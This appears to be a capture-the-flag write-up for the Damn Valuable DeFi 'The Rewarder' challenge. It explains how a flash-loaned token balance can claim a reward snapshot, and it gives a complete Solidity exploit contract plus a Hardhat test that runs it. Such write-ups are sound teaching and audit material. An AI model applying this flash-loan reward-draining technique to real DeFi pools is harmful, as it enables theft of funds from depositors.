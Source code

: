 # The Rewarder

## Analysis
Need to understand the relationship between the tokens and the pools. 

`FlashLoanerPool` allows flashloaning of the `DamnValuableToken` but to smart contracts not users
`AccountingToken` is pegged to the `DamnValuableToken`
`TheRewarderPool` rewards any depositor every 5 days proportional to their deposits. It accepts `DamnValuableToken`
`RewardToken` This is the token used to reward depositors.

## Problem
The flash loan tokens can be used to claim rewards

## Exploit
```.sol
// ExploitTheRewarder.sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../the-rewarder/FlashLoanerPool.sol";
import "../the-rewarder/TheRewarderPool.sol";
import "../the-rewarder/RewardToken.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "../DamnValuableToken.sol";


contract ExploitTheRewarder {
    using Address for address payable;

    // Receiver needs to know the pool it is receiving from
    FlashLoanerPool private immutable pool;
    DamnValuableToken private immutable dvt;
    TheRewarderPool private immutable rewarder;
    RewardToken private immutable rewardtoken;

    // attacker
    address private immutable owner;

    constructor(address payable dvtAddress,
                address payable poolAddress,
                address payable rewarderAddress,
                address payable reward) {
        pool = FlashLoanerPool(poolAddress);
        dvt = DamnValuableToken(dvtAddress);
        rewarder = TheRewarderPool(rewarderAddress);
        rewardtoken = RewardToken(reward);
        owner = msg.sender;
    }

    function exploit() public payable {

        require(msg.sender == owner);

        // interact with the pool, calling the flashLoan will cause
        // the receiveFlashloan routine to be invoked
        pool.flashLoan(1000000 ether);

    }

    function receiveFlashLoan(uint256 amount) public payable {
        // make a deposit of the received funds to trigger receiving of rewards token
        dvt.approve(address(rewarder), amount);
        rewarder.deposit(amount);
        // withdraw the tokens from rewards
        rewarder.withdraw(amount);
        // and return it to the pool
        dvt.transfer(address(pool), amount);       
        uint256 reward_amount = rewardtoken.balanceOf(address(this));
        // transfer the received rewards to attacker EOA from attacker contract
        rewardtoken.transfer(owner, reward_amount);
    }
}
```

```.js
...
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const ExploitTheRewarderFactory = await ethers.getContractFactory("ExploitTheRewarder",
         attacker);
        const ExploitTheRewarder = await ExploitTheRewarderFactory.deploy(
            this.liquidityToken.address,
            this.flashLoanPool.address,
            this.rewarderPool.address,
            this.rewardToken.address);

        // wait 5 days so that contributing will trigger rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 day
        
        // connect to the exploit contract and trigger the exploit
        ExploitTheRewarder.connect(attacker).exploit();

    });
...
```

## Explanation
1. Borrow all the DVT tokens from the flashpool using a smartcontract owned by attacker
2. Deposit them and receive rewards to the attacker smartcontract
3. Since the objective of the task is to claim rewards for the attacker, transfer the received rewards from the attacker smart contract
4. Withdraw the deposited DVT tokens and return them to the flashpool.
